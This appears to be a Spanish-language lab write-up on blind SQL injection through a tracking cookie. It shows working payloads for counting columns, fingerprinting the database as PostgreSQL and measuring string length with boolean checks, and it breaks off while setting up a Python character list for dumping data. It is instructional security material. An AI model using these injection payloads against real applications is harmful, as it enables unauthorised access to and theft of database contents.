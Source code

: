 Si usamos este `payload` en el campo `cookie`, veremos el mensaje `Welcome back!`, esto se debe a que el número de columnas existentes es uno. Si hacemos `order by 2`, no se mostrará el texto, debido a que se está produciendo un `error`

```
Cookie: TrackingId=bCihFEjOtMxyoXQw'+order+by+1--+-+; session=6nuhqP8Gzli26UqC1pQcbVnKe93Ax1st
```

Descartamos que la `base` de `datos` en uso sea `Oracle`, debido a que en `Oracle` sería necesario añadir `from dual` al final para que `no` se produzcan `errores`

```
Cookie: TrackingId=bCihFEjOtMxyoXQw'+union+select+null--+-+; session=6nuhqP8Gzli26UqC1pQcbVnKe93Ax1st
```

Para determinar la versión usamos `@@version` y al hacerlo nos damos cuenta que se produce un error, esto puede deberse a que la base de datos a la que nos enfrentamos no es la de `Microsoft` ni la de `MySQL`

```
Cookie: TrackingId=bCihFEjOtMxyoXQw'+union+select+@@version--+-+; session=6nuhqP8Gzli26UqC1pQcbVnKe93Ax1st
```

Sin embargo, si usamos este otro payload no nos arrojará ningún error, por lo tanto podríamos intuir que la `base` de `datos` es `PostgreSQL`

```
Cookie: TrackingId=bCihFEjOtMxyoXQw'+union+select+version()--+-+; session=6nuhqP8Gzli26UqC1pQcbVnKe93Ax1st
```

`Confirmamos` que la `versión` es `PosgreSQL`

```
Cookie: TrackingId=bCihFEjOtMxyoXQw'+and+substr(version(),1,10)+=+'PostgreSQL'--+-+; session=6nuhqP8Gzli26UqC1pQcbVnKe93Ax1st 
```

De esta forma podemos ver la `longitud` que tiene la `cadena` que vamos a dumpear, hay que probar con ambos operadores `or` y `and`, dependiendo de la consulta uno puede arrojar resultar inconsistentes u ambos puedes ser válidos. En este caso `or` no funciona correctamente y hay que usar `and`, con la `longitud` en `134` no nos arroja `ningún error`, sin embargo si la incrementamos a `135` si que obtenemos el `error`

```
Cookie: TrackingId=Pls1hO5hFWG9D8iI'+and+length(version())=134--+-+; session=9Urch8ydtajImJUb0xQSyEsITyiiKOfw
```

Para poder `dumpear datos` vamos a utilizar todos los caracteres imprimibles de la librería `string` de `python`

```
(pythonProject) PS C:\Users\Sergio\PycharmProjects\pythonProject> python
Python 3.11.10 | packaged by Anaconda, Inc. | (main, Oct  3 2024, 07:22:26) [MSC v.1929 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import string
>>> dir (string)
['Formatter', 'Template', '_ChainMap', '__all__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_re', '_sentinel_dict', '_string', 'ascii_letters', 'ascii_lowercase', 'ascii_uppercase', 'capwords', 'digits', 'hexdigits', 'octdigits', 'printable', 'punctuation', 'whitespace']
>>> string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

